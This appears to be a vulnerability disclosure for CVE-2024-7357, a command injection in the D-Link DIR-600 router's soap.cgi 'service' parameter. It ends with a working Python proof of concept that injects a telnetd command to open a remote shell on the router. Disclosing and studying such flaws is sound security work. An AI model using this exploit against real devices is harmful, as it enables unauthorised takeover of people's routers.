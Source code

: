 # D-link DIR-600 cmd injection vulnerability

## Overview
- Vulnarable product: D-Link DIR-600
- Manufacturer's website information: https://www.dlink.com/
- Firmware download address: [https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600)

## Affected version
- Hardware version B5
- Firmware version 2.18（the latest firmware of the router）

## Vulnerability Details

This vulnerability is found in function `soapcgi_main`. The function first try to get pointer to the `service` parameter in url and store it in `v19 == v10 + 9`:

![1](img/1.png)
![3](img/2.png)

Then the `service` parameter will be joined into the format string via `sprintf` function and stored in to `byte_436CA0`. `system` function will happily take that as its argument, causing the command injection.

## PoC

Code:

```python
from socket import *
from os import *
from time import *

####### configuration #######
host = '192.168.0.1'
upnp_port = 49152
shell_port = 1337
#############################

request = f"POST /soap.cgi?service=;telnetd -p {shell_port}; HTTP/1.1\r\n".encode()
request += f"Host: {host}:{upnp_port}\r\n".encode()
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 100\r\n"
request += b"SOAPAction: \"urn:schemas-upnp-org:service:serviceType:v#actionName\"\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
print(f"[*] Connecting to {host}:{upnp_port}")
s.connect((gethostbyname(host), upnp_port))
print("[*] Sending payload")
s.send(request)

print("[*] Waiting for the shell to be opened")
sleep(5)
print(f"[*] Connecting to shell on {host}:{shell_port}")
system(f'telnet {host} {shell_port}')
```

PoC effect screenshot:

![1](img/demo.png)

The Proof-of-Concept video is in the demo folder.

## CVE

CVE-2024-7357